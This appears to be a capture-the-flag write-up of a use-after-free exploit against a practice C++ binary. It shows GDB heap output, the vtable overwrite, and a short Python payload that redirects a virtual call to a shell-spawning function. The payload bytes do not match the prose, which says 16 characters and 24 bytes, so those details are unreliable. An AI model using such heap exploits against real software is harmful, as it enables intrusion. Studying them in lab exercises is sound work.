 ## Use After Free

### Analysis

The uaf.cpp has a simple switch which creates 2 objects - these objects call methods from vtable
It also reads a file of our choice and allocates that data. This program also gives us a control of which function we want to call first via switch case.

```C
switch(op){
                        case 1:
                                m->introduce();
                                w->introduce();
                                break;
                        case 2:
                                len = atoi(argv[1]);
                                data = new char[len];
                                read(open(argv[2], O_RDONLY), data, len);
                                cout << "your data is allocated" << endl;
                                break;
                        case 3:
                                delete m;
                                delete w;
                                break;
                        default:
                                break;
                }
```

`give_shell` method is the function we need to call instead of introduce.

```Cpp


class Human{
private:
        virtual void give_shell(){
                system("/bin/sh");
        }
protected:
        int age;
        string name;
public:
        virtual void introduce(){
                cout << "My name is " << name << endl;
                cout << "I am " << age << " years old" << endl;
        }
};
```


Using `GEF` (GDB Enhanced Features) we can analyse binary. After disassembling main function, we can find that before creation of object, a new heap chunk is created.
 
 ```bash
   0x0000000000400f00 <+60>:    call   0x400d90 <operator new(unsigned long)@plt>
   0x0000000000400f05 <+65>:    mov    rbx,rax
   0x0000000000400f08 <+68>:    mov    edx,0x19
   0x0000000000400f0d <+73>:    mov    rsi,r12
   0x0000000000400f10 <+76>:    mov    rdi,rbx
   0x0000000000400f13 <+79>:    call   0x401264 <Man::Man(std::basic_string<char, std::char_traits<char>, std::allocator<char> >, int)> 
```

If we set a breakpoint after calling `Man()` constructor, we can use `heap chunks` to check them.

```bash
Chunk(addr=0x6152e0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x00000000006152e0     70 15 40 00 00 00 00 00 19 00 00 00 00 00 00 00    p.@.............]
```
This tells us, that we have created a heap chunk on address `0x6152e0`, with size `0x20` (32, size passed to `new()` was 18 but due to 8 or 16 byte alingment (based on system) it grows to 32)

We can examine the chunk using `x/xg 0x6152e0` and see the address to vtable. 

```bash
gef➤  x/4xg 0x0000000000401570
0x401570 <vtable for Man+16>:   0x000000000040117a      0x00000000004012d2
0x401580 <vtable for Human>:    0x0000000000000000      0x00000000004015f0
```

The 2 addresses in vtable are for methods `give_shell()` and `introduce()`, we can examine them to confirm it.

```bash
gef➤  x/xg 0x000000000040117a
0x40117a <Human::give_shell()>: 0x10ec8348e5894855
```

After using program with third option (delete), we can examine chunk once again and see, that vtable address is erased, but the vtable itself still contains addresses to the virtual functions.
We can also use `heap bins` to see freed chunks and their sizes.

```bash
gef➤  heap bins
──────────────────────────────────────────────────────────────────────────────────────────────────────── Tcachebins for thread 1 ────────────────────────────────────────────────────────────────────────────────────────────────────────
Tcachebins[idx=0, size=0x20, count=2] ←  Chunk(addr=0x615330, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x6152e0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) 
Tcachebins[idx=1, size=0x30, count=2] ←  Chunk(addr=0x615300, size=0x30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)  ←  Chunk(addr=0x6152b0, size=0x30, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) 

```

### Exploit

If the freed chunks are the same size as the new data we want to allocate, our heap manager will reuse those old heap chunks. Using this behavior, we can use option `2` to allocate a `data` array with a size of `0x18` (24 bytes, the same size as our previous data). This allocation will overwrite the `Man` and `Woman` chunks. After this, we can use option `1` to call the `introduce()` method; however, due to the overwritten vtable, it will incorrectly call `give_shell()` instead.

If we create a file containing 24 characters and use it as an argument file for our program, we can see that `heap chunks` are reused by using options `3` and then `2`. This shows that our heap chunks were reused.

Additionally, we need to reuse the `Woman` chunk to prevent our program from segfaulting. To achieve this, we simply need to use option `2` twice, allowing us to allocate two objects.

The last piece of the puzzle is understanding how `m->introduce()` works. It first accesses the vtable address, which points to two addresses, and then calls `(*vtable) + 8`. To call `give_shell()` instead of `introduce()`, we set `vtable_address` to `vtable_address - 8`, which is `0x0000000000401568`.

This python code will write our exploit, that has 16 characters followed by address of our function address.

```Python
with open("./tmp", "wb") as f:
    f.write(b'\x68\x15\x40\x00\x00\x00\x00\x00\x00' + 16* b'Y' )
```

After running this script, we can call
```bash
./uaf 24 tmp
```
and then use options `3`, `2`, `2`, `1` to access shell.
